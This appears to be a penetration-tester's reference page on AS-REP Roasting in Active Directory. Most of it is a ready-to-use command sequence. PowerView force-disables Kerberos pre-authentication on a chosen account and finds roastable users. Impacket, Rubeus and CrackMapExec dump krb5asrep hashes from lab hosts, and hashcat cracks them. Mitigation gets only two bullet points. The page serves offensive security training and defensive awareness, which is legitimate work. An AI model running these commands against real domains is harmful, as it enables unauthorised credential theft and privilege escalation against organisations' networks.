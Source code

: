 ```yaml
---
title: "AS-REP Roasting"
description: "Privilege escalation using AS-REP Roasting."
lead: "Using AS-REP Roasting for privilege escalation in Active Directory with PowerView, Mimikatz, and Rubeus."
date: 2021-11-06T11:53:35+01:00
lastmod: 2021-11-06T11:53:35+01:00
draft: false
images: []
menu: 
  active_directory:
    parent: "domain_privilege_escalation"
weight: 10
toc: true
---
```


## Overview

- Dump krbasrep5 hashes of user accounts without Kerberos pre-authentication
- Users do not have to be service accounts
- Must have pre-authentication disabled
- Can request any authentication data (encrypted TGT) for any user since KDC skips validation
- Crack dumped hash with hashcat

## Exploitation

### Force Disable Kerberos Preauth

```powershell
# Using PowerView 3.0/dev
# Enumerate permissions for RDPUsers on ACLS
Invoke-ACLScanner -ResolveGUIDS | ?{ $_.IdentityReferenceName -match "RDPUsers" }

# Disable preauth for user
Set-DomainObject -Identity Control572User -XOR @{useraccountcontrol=4194304} -Verbose
```

### Enumerate Users with Preauth Disabled

```powershell
# Using PowerView 3.0/dev
Get-DomainUser -PreauthNotRequired -Verbose | Select samaccountname

# Using AD Module
Get-ADUser -Filter { DoesNotRequirePreAuth -eq $true } -Properties DoesNotRequirePreAuth

# Query AS-REP-roastable users with impacket from Kali host
# Supply userlist and don't require authentication
GetNPUsers.py -dc-ip 10.10.149.145 -no-pass -usersfile users.txt -format hashcat -outputfile hashes.asrep spookysec.local/

# Dump KRBASREP5 hash for specific user and output in hashcat format to file
.\Rubeus.exe asreproast /user:control572user /format:hashcat /outfile:control572user.asrep

# Dump hashes with credentials using CrackMapExec
crackmapexec ldap 10.0.2.11 -u 'username' -p 'password' --kdcHost 10.0.2.11 --asreproast output.txt

# Transfer hash onto attacker and insert 23$ after $krb5asrep$ so that the first line will be $krb5asrep$23$User.....
# Crack hash with hashcat
hashcat -a 0 -m 18200 hash.txt rockyou.txt
```

## Mitigation

- Strong password policy
- Enable Kerberos Pre-Authentication

## Further Reading

- [iRedTeam: AS-REP Roasting](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/as-rep-roasting-using-rubeus-and-hashcat)
- [XPN: Kerberos AD Attacks - More Roasting with AS-REP](https://blog.xpnsec.com/kerberos-attacks-part-2/)
- [harmj0y: Roasting AS-REPs](https://www.harmj0y.net/blog/activedirectory/roasting-as-reps/)
